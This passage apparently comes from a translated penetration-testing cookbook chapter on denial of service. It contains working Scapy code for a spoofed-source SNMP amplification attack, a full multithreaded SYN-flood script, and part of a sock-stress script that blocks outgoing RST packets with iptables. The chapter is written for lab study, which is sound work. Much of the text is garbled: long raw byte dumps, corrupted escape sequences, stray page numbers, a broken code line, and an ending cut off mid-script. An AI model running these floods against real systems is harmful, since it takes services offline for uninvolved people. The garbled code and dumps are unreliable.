**\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x00\r\x06\t+\x06\x01\x02\x01
**x19\x01\x04\x00\x04\x00\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04
**x0fDEMO-72E8F41CA40\x0e\x06\00x06\x01\x02\x01\x00\x01\x05\x00B\x01\x02
**\x0c\x06\x08\x06\x01\x02\x01\x01\x06\x00\x04\x00\x00\x06\00x00\x01
0\x02\x01\x00\x01\x00\x01\x01\x01\x01\x01\x01\x00\x01\x00\x01\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\```


该命令使用了我们在上一个练习中讨论过的相同值：

```python
>>> sr1(IP(dst="172.16.36.134")/UDP(sport=161,dport=161)/**
SNMP(PDU=SNMPbulk(max_repetitions=50,varbindlist=[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.19.1.3'))])),verbose=1,timeout=5)
```

327

### *拒绝服务*

**开始发射：**

已发送 1 个数据包。

接收 5 个数据包，获得 1 个回答，剩余 0 个数据包

```
<IP version=4L ihl=5L tos=0x0 len=1500 id=14170 flags=MF frag=0L ttl=128 proto=udp chksum=0x3c30 src=172.16.36.134 dst=172.16.36.224 options=[]
|<UDP sport=snmp dport=snmp len=2162 chksum=0xd961 |<Raw load='0\x82\x08\x02\x01\x01\x04\x06public\xa2\x82\x08W\x02\x01\x00\x02\x01\x00\x02\x01\x000\x82\x08J0\x81\x8b\x06\x08+\x06\x01\x02\x01\x01\x01\x00\x04\x7fHardware: x86 Family 6 Model 58 Stepping 9 AT/AT COMPATIBLE -Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)0\x11\x06\t+\x06\x01\x02\x01\x19\x01\x01\x00C\x04\x00\xa3i\xad0\x18\x06\x08+\x06\x01\x02\x01\x01\x02\x00\x06\x0c+\x06\x01\x04\x01\x827\x01\x01\x03\x01\x010\x15\x06\t+\x06\x01\x02\x01\x19\x01\x02\x00\x04\x08\x07\xde\x02\x19\t\x08!\x010\x0f\x06\x08+\x06\x01\x02\x01\x01\x03\x00C\x03t\x99\x180\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x03\x00\x02\x01\x000\x0c\x06\x08+\x06\x01\x02\x01\x01\x04\x00\x04\x000\r\x06\t+\x06\x01\x02\x01\x19\x01\x04\x00\x04\x000\x1b\x06\x08+\x06\x01\x02\x01\x01\x05\x00\x04\x0fDEMO-72E8F41CA40\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x05\x00B\x01\x020\x0c\x06\x08+\x06\x01\x02\x01\x01\x06\x00\x04\x000\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x06\x00B\x01/0\r\x06\x08+\x06\x01\x02\x01\x01\x07\x00\x02\x01L0\x0e\x06\t+\x06\x01\x02\x01\x19\x01\x07\x00\x02\x01\x00\r\x06\x08+\x06\x01\x02\x01\x02\x01\x00\x02\x01\x02\x10\x06\t+\x06\x01\x02\x01\x19\x02\x02\x00\x02\x03\x1f\xd\x00\x0f\x06\n+\x06\x01\x02\x01\x02\x02\x01\x01\x02\x01\x01\x00\x06\x0b\x06\x01\x02\x01\x19\x02\x03\x01\x03\x02\x01\x00\x00\x00\x00\\x01\x01\x01\x01\x01\x00\x00\x00\x00\x00\x02\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x02\x01\x02\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x02\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x02\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01\x01
```

发送了 2 个数据包。

要实际使用此命令进行攻击，源 IP 地址需要更改为目标系统的 IP 地址。这样做，我们应该能够将负载重定向到该受害者。这可以通过将 `IP src` 值更改为目标 IP 的字符串来实现：

```python
>>> send(IP(dst="172.16.36.134",src="172.16.36.135")/**
UDP(sport=161,dport=161)/SNMP(PDU=SNMPbulk(max_repetitions=50,varbindlist=[SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.1')),SNMPvarbind(oid=ASN1_OID('1.3.6.1.2.1.19.1.3'))])),verbose=1,count=2)
```

发送了 2 个数据包。

应该使用 `send()` 函数来发送这些伪造请求，因为预计本地接口上不会返回响应。要确认负载到达了目标系统，可以使用 `TCPdump` 入流量：

```bash
admin@ubuntu: sudo tcpdump -i eth0 -vv src 172.16.36.134
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 96 bytes
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 0, flags [+],
proto UDP (17), length 1500) 172.16.36.134.snmp > 172.16.36.135.snmp:
[len1468<asnlen2150]
13:32:14.210732 IP (tos 0x0, ttl 128, id 5944, offset 148, flags [none],
proto UDP (17), length 702) 172.16.36.134 > 172.16.36.135: udp
```


SNMP 放大攻击的有效性与 SNMP 查询响应的大小直接相关。此外，通过使用多个 SNMP 设备，可以增加攻击的威力。

# NTP 放大 DoS 攻击

NTP 放大 DoS 攻击利用了网络时间协议（NTP）服务器，这些服务器会响应远程 `monlist` 请求。`monlist` 函数会返回所有与服务器交互过的设备列表，在某些情况下，列表条目多达 600 条。攻击者可以伪造来自目标 IP 地址的请求，脆弱的服务器会为发送的每个请求返回非常大的响应。在本书编写时，这仍然是一个在大范围内使用的常用威胁。因此，我将仅演示如何测试 NTP 服务器以确定它们是否会响应远程 `monlist` 请求。大多数 NTP 服务都提供了补丁或修复来解决此问题，任何出现症状的设备都应该进行修复或下线。

### 准备工作

要确定一个 NTP 服务器是否可以用于 NTP 放大攻击，你需要一个启用了 NTP 的设备。在提供的示例中，使用了安装了 Ubuntu 来托管 NTP 服务。有关设置 Ubuntu 的更多信息，请参阅本书第 1 章“入门”中的*安装 Ubuntu Server*食谱。

### 如何操作……

为了确定远程服务器是否正在运行 NTP 服务，可以使用 `nmap` 快速扫描 UDP 端口 `123`。可以使用 `-sU` 选项指定 UDP，然后使用 `-p` 选项指定端口：

```
root@KaliLinux:~# nmap -sU 172.16.36.224 -p 123
Starting Nmap 6.25 ( http://nmap.org ) at 2014-02-24 18:12 EST
Nmap scan report for 172.16.36.224
Host is up (0.00068s latency).
PORT STATE SERVICE
123/udp open ntp
MAC Address: 00:0C:29:09:C3:79 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

如果远程服务器上运行着 NTP 服务，扫描结果将返回 `open`（开启）状态。

Kali Linux 默认安装的另一个工具也可以用于判断 NTP 服务是否可以用于放大攻击。可以使用 `ntpdc` 工具尝试对远程服务执行 `monlist` 命令：

```
root@KaliLinux:~# ntpdc -n -c monlist 172.16.36.224
172.16.36.224: timed out, nothing received
Request timed out
```

理想情况下，我们希望看到的是没有返回任何响应。在提供的第一个示例中，请求超时且没有收到任何输出。这表明服务器是不脆弱的，`monlist` 命令只能在本地执行：

```
root@KaliLinux:~# ntpdc -c monlist 172.16.36.3
remote address port local address count m ver rstr avgint lstint
host.crossing.com 123 172.16.36.3 18 4 4 1d0 351
grub.ca.us.roller.o 123 172.16.36.3 17 4 4 1d0 37 35
va-time.utility.o 123 172.16.36.3 17 4 4 1d0 37 59
cheezpuff.meatball.n 123 172.16.36.3 17 4 4 1d0 38 62
pwnbox.lizard.com 123 172.16.36.3 35 4 4 5d0 65 51
```

或者，如果返回了一系列的主机和连接元数据，则远程服务器可能被用于放大攻击。每当有新主机与服务器交互时，该列表就会添加一个新条目，响应的大小以及潜在的负载也会随之增大。

### 工作原理……

放大攻击通过利用第三方设备或多个设备，利用网络流量淹没目标来实现。对于大多数放大攻击，以下两个条件是的：

- 用于执行攻击的协议不验证请求源
- 所用网络函数的响应应远大于用于触发该响应的请求

NTP 放大攻击的有效性与 NTP `monlist` 查询响应的大小直接相关。此外，通过使用多个脆弱的 NTP 服务，可以增加攻击的威力。

### SYN 洪水 DoS 攻击

SYN 洪水 DoS 攻击是一种资源消耗攻击。它通过向与目标服务相关的远程端口发送大量的 TCP `SYN` 请求来实现。对于目标服务收到的每个初始 `SYN` 数据包，它将发送一个 `SYN+ACK` 数据包并保持连接开启，等待启动客户端发送的最终 `ACK` 数据包。通过用这些半打开请求过载目标，攻击者可以使服务无法响应。

### 准备工作

要使用 `Scapy` 对目标进行全 SYN 洪水，你需要一个运行基于 TCP 网络服务的远程系统。在提供的示例中，使用了 `Metasploitable2` 实例来执行此任务。有关设置 Metasploitable2 的更多信息，请参阅本书第 1 章“入门”中的*安装 Metasploitable2*食谱。此外，本节还需要使用 `VIM` 或 `Nano` 等文本编辑器将脚本写入文件系统。有关编写脚本的更多信息，请请参阅本书第 1 章“入门”中的*使用文本编辑器 (VIM 和 Nano)*食谱。

### 如何操作……

要使用 `Scapy` 执行 SYN 洪水，我们需要首先向与目标服务相关的端口发送 TCP `SYN` 请求。要向任何给定端口发送 TCP `SYN` 请求，我们必须首先构建该请求的层级。我们需要构建的第一层是 IP 层：

```
root@KaliLinux:~# scapy
Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
>>> i.dst = "172.16.36.135"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 172.16.36.135
```

为了构建请求的 IP 层，我们需要将 IP 对象赋值给变量 `i`。通过调用 `display()` 函数，我们可以识别对象的属性配置。默认情况下，发送和接收地址都设置为 `127.0.0.1`。通过将 `i.dst` 设置为地址字符串值来修改这些值。再次调用 `display()` 函数，可以看到不仅目标地址已更新，`Scapy` 自动将源 IP 更新为与默认接口关联的地址。现在已经构建了 IP 层，应该处理 TCP 层：

```
>>> t = TCP()
>>> t.display()
###[ TCP ]###
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}
```

为了构建请求的 TCP 层，我们将使用与构建 IP 层相同的方法。在提供的示例中，TCP 对象被赋值给变量 `t`。如前所述，可以通过调用 `display()` 函数识别默认配置。在这里，我们可以看到目标端口的默认值是 HTTP 端口 `80`。对于初始扫描，我们将保持默认 TCP 配置不变。现在我们已经创建了 IP 和 TCP 层，需要通过堆叠这些层来构建请求：

```
>>> response = sr1(i/t,verbose=1,timeout=3)
```


开始发射：

已发送 1 个数据包。

接收 5 个数据包，获得 1 个响应，剩余 0 个数据包。

>>> `response.display()`

### [ IP ]

version= 4L
ihl= 5L
tos= 0x0
len= 44
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9944
src= 172.16.36.135
dst= 172.16.36.224
`options`

### [ TCP ]

sport= http
dport= ftp_data
seq= 3651201360L
ack= 1
dataofs= 6L
reserved= 0L
flags= SA
window= 5840
chksum= 0x1c68

335

拒绝服务

urgptr= 0
options= [('MSS', 1460)]

### [ Padding ]

load= '\x00\x00'

IP 和 TCP 层可以通过正斜杠分隔变量来堆叠。这些层随后可以赋值给一个新的变量，该变量将代表整个请求。然后可以调用 `display()` 函数来查看请求的配置。请求构建完成后，可以将其传递给 `send` 和 `receive` 函数，以便我们分析响应：

>>> `request = (i/t)`
>>> `request.display()`

### [ IP ]

version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= tcp
chksum= None
src= 172.16.36.224
dst= 172.16.36.135
`options`

### [ TCP ]

sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}

336

第 6 章

可以在不独立构建和堆叠每一层的情况下执行相同的请求。

相反，可以通过直接调用函数并向它们传递适当参数来使用单行命令：

>>> `sr1(IP(dst="172.16.36.135")/TCP())`

开始发射：

......................................................已发送 1 个数据包。

..***

接收 57 个数据包，获得 1 个响应，剩余 0 个数据包
<IP version=4L ihl=5L tos=0x0 len=44 id=0 flags=DF frag=0L ttl=64 proto=tcp chksum=0x9944 src=172.16.36.135 dst=172.16.36.224 options=[] ||<TCP sport=http dport=ftp_data seq=2078775635 ack=1 dataofs=6L reserved=0L flags=SA window=5840 chksum=0xca1e urgptr=0 options=[('MSS', 1460)] |<Padding load='\x00\x00' |>>>

SYN 洪水攻击的有效性取决于在给定时间内可以生成的 SYN 请求的数量。为了提高此攻击序列的有效性，我编写了一个多线程脚本，它可以执行攻击系统能够处理的任意数量 SYN 数据包注入进程：

```python
#!/usr/bin/python

from scapy.all import *
from time import sleep
import thread
import random
import logging

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:
    print "Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]"
    print "Example - ./sock_stress.py 10.0.0.5 80 20"
    print "Example 将对 10.0.0.5 上的 HTTP (端口 80) 服务执行 20 倍多线程 SYN 洪水攻击"
    sys.exit()

target = str(sys.argv[1])
port = int(sys.argv[2])
threads = int(sys.argv[3])

print "正在执行 SYN 洪水攻击。使用 Ctrl+C 停止攻击。"

def synflood(target,port):
    while 0 == 0:
        x = random.randint(0,65535)
        send(IP(dst=target)/TCP(dport=port,sport=x),verbose=0)

for x in range(0,threads):
    thread.start_new_thread(synflood, (target,port))

while 0 == 0:
    sleep(1)
```

337

拒绝服务

脚本在执行时接受三个参数。这些参数包括目标 IP 地址、SYN 洪水发送到的端口号，以及执行 SYN 洪水时使用的线程数或并发进程数。每个线程从生成一个 0 到 65,535 之间的整数开始。这个范围代表了分配给源端口的所有可能值。TCP 头部中定义源和目的端口地址的部分长度均为 16 位。每位可以保留 1 或 0 的值。因此，有 $2^{16}$ 个或 65,336 种可能的 TCP 端口地址。单个源端口只能持有一个半开连接，因此通过为每个 SYN 请求生成唯一的源端口地址，我们可以大幅提高攻击的性能：

root@KaliLinux:~# ./syn_flood.py
Usage - ./syn_flood.py [Target-IP] [Port Number] [Threads]
Example - ./sock_stress.py 10.0.0.5 80 20
Example 将对 10.0.0.5 上的 HTTP (端口 80) 服务执行 20 倍多线程 SYN 洪水攻击
root@KaliLinux:~# ./syn_flood.py 172.16.36.135 80 20
正在执行 SYN 洪水攻击。使用 Ctrl+C 停止攻击。

当在没有任何参数的情况下执行脚本时，会向用户返回用法。在提供的示例中，脚本针对 172.16.36.135 执行，带有 20 个线程。脚本本身提供的反馈很少；但可以运行 Wireshark 或 tcpdump 等流量捕捉工具来验证连接正在发送。很短之后，对服务器的连接尝试将变得缓慢或无响应。通过将其作为 DDoS 并让攻击系统执行执行，可以进一步增强这种攻击的有效性。

第 6 章

sock 压力攻击包括向要被攻击服务的端口建立一系列开放连接。在提供的示例中，使用了 Metasitable2 实例来执行此任务。有关设置 Metasitable2 的更多信息，请参考第 1 章中的 *安装 Metasitable2*。此外，本节需要使用 VIM 或 Nano 等文本编辑器编写脚本。有关编写脚本的更多信息，请参考第 1 章中的 *使用文本编辑器 (VIM and Nano)*。

其工作原理……

以下脚本使用 Scapy 编写，用于对目标执行 sock 攻击。以下脚本可以测试存在漏洞的服务：

```python
#!/usr/bin/python

from scapy.all import *
from time import sleep
import thread
import logging
import os
import signal
import sys

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:
    print "Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]"
    print "Example - ./sock_stress.py 10.0.0.5 21 20"
    print "Example 将对 10.0.0.5 上的 FTP (端口 21) 服务执行 20 倍多线程 sock-stress DoS 攻击"
    print "\n***注意***"
    print "确保你针对建立连接时会有响应的端口"
    sys.exit()

target = str(sys.argv[1])
dstport = int(sys.argv[2])
threads = int(sys.argv[3])

## 这是魔法发生的地方

def sockstress(target,dstport):
    while 0 == 0:
        try:
            x = random.randint(0,65535)
            response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags='S'),timeout=1,verbose=0)
            send(IP(dst=target)/TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)
        except:
            pass

## 优雅退出允许修复 IP 表

def graceful_shutdown(signal, frame):
```


```python
print '\nYou pressed Ctrl+C!'

print 'Fixing IP Tables'

os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' +

target + ' -j DROP')

sys.exit()
```

## 创建 IPTables 规则以防止传出的 RST 包以允许 Scapy

### TCP 连接

```python
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target

+ -j DROP')
```

`signal.signal(signal.SIGINT, graceful_shutdown)`

## 启动多个线程发起攻击

```python
print "\nThe onslaught has begun...use Ctrl+C to stop the attack"

for x in range(0,threads):

